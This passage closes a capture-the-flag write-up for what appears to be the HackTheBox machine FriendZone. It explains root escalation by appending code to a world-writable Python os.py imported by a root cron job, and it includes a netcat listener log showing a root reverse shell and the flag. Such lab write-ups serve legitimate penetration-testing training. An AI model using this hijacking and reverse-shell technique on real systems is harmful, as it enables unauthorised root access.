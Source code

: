 After downloading pspy on our victim host, 

```
2024/08/16 23:40:01 CMD: UID=0    PID=3203   | /usr/bin/python /opt/server_admin/reporter.py 
2024/08/16 23:40:01 CMD: UID=0    PID=3202   | /bin/sh -c /opt/server_admin/reporter.py 
2024/08/16 23:40:01 CMD: UID=0    PID=3201   | /usr/sbin/CRON -f 
```
I found this suspicious reporter.py

### 4.2 python library hijiacking

reporter.py imports os, but **does not use it**. So I couldn't modify the script to execute some commands. (I also didn't have write privielge) After searching for a while, I noticed there is a potential risk if a non-privileged user can modify the library itself.

> So I looked after /usr/lib/python2.7/os.py:

```
-rwxrwxrwx  1 root   root    25910 Jan 15  2019 os.py
```

The mechanism is pretty simple:

1. Loading python module is actually compiling it.
2. So if we modify os.py, modified part of code will be executed every time os is being imported.
3. We can simply add some scripts at the end of the os.py!

So I modified the end of the file like this:

![lfi3](../contentImages/friendzone/os_modify.png)

And waited calmly... (I thought importing os in os.py would not work and tried to do it again, but it worked anyway)

```
┌──(hosan㉿kali)-[~]
└─$ nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.10.16.14] from (UNKNOWN) [10.10.10.123] 38182
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
667053ead4657d95ce354e508e17ec07
```

And that's pretty much it! 

## 5. Review

While I didn't mention it earlier, there were numerous rabbit holes, such as the /upload endpoint, which initially seemed like a promising vector for the initial foothold. 


However, this led to some challenges and required a bit of perseverance to find the correct path.


Overall, this machine serves as valuable preparation for OSCP, given the extensive enumeration required. 


It could be improved by more clearly distinguishing between legitimate paths and false positives.


## Source

- Me!
- HTB 2024